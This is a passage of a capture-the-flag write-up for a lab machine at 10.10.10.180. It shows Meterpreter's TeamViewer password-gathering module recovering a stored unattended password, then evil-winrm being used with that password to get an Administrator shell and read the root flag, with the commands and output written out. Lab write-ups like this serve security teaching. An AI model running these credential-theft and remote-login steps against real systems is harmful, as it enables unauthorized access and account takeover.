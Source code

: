 Looks like this server has team viewer on it:
{% highlight bash %}
c:\Program Files (x86)>cd TeamViewer
cd TeamViewer

c:\Program Files (x86)\TeamViewer>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE23-EB3E

 Directory of c:\Program Files (x86)\TeamViewer

02/20/2020  03:14 AM    <DIR>          .
02/20/2020  03:14 AM    <DIR>          ..
02/27/2020  11:35 AM    <DIR>          Version7
               0 File(s)              0 bytes
               3 Dir(s)  19,401,138,176 bytes free

c:\Program Files (x86)\TeamViewer>
{% endhighlight %}

Meterpreter has an inbuilt tool to gather TeamViewer passwords:

{% highlight bash %}
c:\Program Files (x86)\TeamViewer>exit
exit
meterpreter > run post/windows/gather/credentials/teamviewer_passwords

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/kali/.msf4/loot/20200827043402_default_10.10.10.180_host.teamviewer__775352.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
meterpreter >
{% endhighlight %}

Next we will use a tool called Evil WinR. Information on this tool; how to install and use it, can be found on it's github repo page: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

{% highlight bash %}
kali@kali:~$ evil-winrm -u 'Administrator' -p '!R3m0te!' -i '10.10.10.180'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
{% endhighlight %}

And from here we can get the root flag:

{% highlight bash %}
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2020   4:23 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
61------------------------------
{% endhighlight %}